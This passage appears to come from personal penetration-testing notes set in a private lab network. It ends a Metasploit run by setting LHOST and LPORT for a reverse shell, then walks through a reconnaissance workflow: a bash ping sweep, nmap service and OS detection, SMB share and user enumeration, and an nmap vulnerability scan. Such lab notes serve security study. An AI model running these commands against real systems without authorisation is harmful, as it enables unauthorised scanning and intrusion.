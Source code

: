 ```bash
set LHOST 192.168.1.100
set LPORT 4444

# Run the exploit
exploit
```

#### Sample Output

![[Pasted image 20250322224047.png]]
![[Pasted image 20250322224139.png]]
## Practical Examples

### Comprehensive Network Scan

This example demonstrates a comprehensive network reconnaissance workflow:

1. **Discover live hosts with Ping sweep**:

```bash
for ip in $(seq 1 254); do ping -c 1 192.168.74.$ip | grep "bytes from" | cut -d" " -f4 | cut -d":" -f1 & done
```

![[Pasted image 20250322224245.png]]

2. **Scan discovered hosts with Nmap**:

```bash
nmap -sV -O -A -T4 -oA network_scan 192.168.74.146
```

![[Pasted image 20250322224716.png]]

3. **Targeted service enumeration**:

```bash
nmap --script=smb-enum-shares,smb-enum-users 192.168.74.146
```

![[Pasted image 20250322224830.png]]

4. **Vulnerability scanning**:

```bash
nmap --script=vuln 192.168.74.146
```

![[Pasted image 20250322224941.png]]

---

## Practical Examples

